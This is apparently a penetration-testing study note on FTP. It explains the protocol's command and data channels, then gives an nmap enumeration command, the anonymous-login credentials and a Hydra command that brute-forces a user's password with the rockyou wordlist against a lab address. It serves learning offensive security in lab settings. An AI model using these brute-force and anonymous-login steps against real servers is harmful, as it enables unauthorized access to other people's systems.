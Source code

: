# FTP (File Transfer Protocol)

File Transfer Protocol (FTP) is, as the name suggests, a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

### FTP runs on TCP port 21

### How does FTP work?

A typical FTP session operates using two channels:

* a command (sometimes called the control) channel - is used for transmitting commands as well as replies to those commands.
* a data channel - is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session. While the session is open, the client may execute FTP commands on the server.

### Enumerating FTP

```
nmap -sV [ip] -p 21
```

### Exploiting FTP

#### FTP anonymous Login

username: anonymous\
password: \<blank>&#x20;

#### Password cracking with Hydra

Let's say we have a user Dale, whose password we wanna find on a particular ftp server. We use the sample command as shown below:

```awk
hydra -t 4 -l "dale" -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

